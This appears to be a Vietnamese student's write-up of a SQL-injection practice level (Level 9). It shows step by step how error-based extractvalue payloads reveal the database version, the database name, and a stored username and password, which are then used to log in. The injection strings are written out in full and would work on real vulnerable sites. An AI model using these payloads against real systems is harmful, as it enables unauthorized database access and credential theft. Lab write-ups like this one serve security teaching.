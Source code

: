 # <div align="center"><p> SQL-Injection/Level_9</p></div>
 ## Họ và tên: Mai Thị Hoàng Yến
 ## Ngày báo cáo: Ngày 07/5/2022
 ### MỤC LỤC
   [SQL-Injection](#gioithieu)
   
### Nội dung báo cáo 
#### SQL-Injection <a name="gioithieu"></a>
- B1: Đây là trang web của level9.

  ![image](https://user-images.githubusercontent.com/101852647/167064518-639d8742-a1ed-43b3-b8e9-b33a7a4d0616.png)

- B2: Thử chèn 1' thì thấy trang web trả về thông báo lỗi.

  ![image](https://user-images.githubusercontent.com/101852647/167064630-128c830b-3f1b-4305-9890-3d270518710d.png)

- B3: Thử chèn `' union select 1,2#` vẫn thấy thông báo lỗi.

  ![image](https://user-images.githubusercontent.com/101852647/167064709-7c53bd83-c5c4-40d5-b845-911942202004.png)

- B4: Bây giờ chúng ta sẽ sử dụng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select version())) or ' ` để tìm phiên bản.

  ![image](https://user-images.githubusercontent.com/101852647/167064842-333002c9-e138-408a-a118-3f8fbcaa46cb.png)

- B5: Bây giờ chúng ta sẽ sử dụng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select database())) or ' ` để tìm tên database.

  ![image](https://user-images.githubusercontent.com/101852647/167064892-82f5ba2d-778d-4239-82c6-a3030a2d03ec.png)

- B6: Sử dụng câu lệnh ` ' or extractvalue(0x0a,concat(0x0a,(select group_concat(username) from level9_users))) or '` để tìm username. Kết quả trả về cho chúng ta tên `username=TheBlueFlower`

  ![image](https://user-images.githubusercontent.com/101852647/167064943-b13a7c3f-9494-497a-b0af-ca65ad11f3fa.png)

- B7: Sử dụng câu lệnh ` ' or extractvalue(0x0a,concat(0x0a,(select group_concat(password) from level9_users))) or '` để tìm password.Kết quả trả về cho chúng ta `password= this_oassword_is_SEC//Ure.promised!`

  ![image](https://user-images.githubusercontent.com/101852647/167064977-534098ca-a66e-4bf4-a196-a0af2d990b00.png)

- B8: Thử đăng nhập `ussername=TheBlueFlower ` và `password=this_oassword_is_SEC//Ure.promised! ` và kết quả trả về đăng nhập thành công.

  ![image](https://user-images.githubusercontent.com/101852647/167065092-9e7c3671-40eb-427e-944b-3e704a8ecc9e.png)

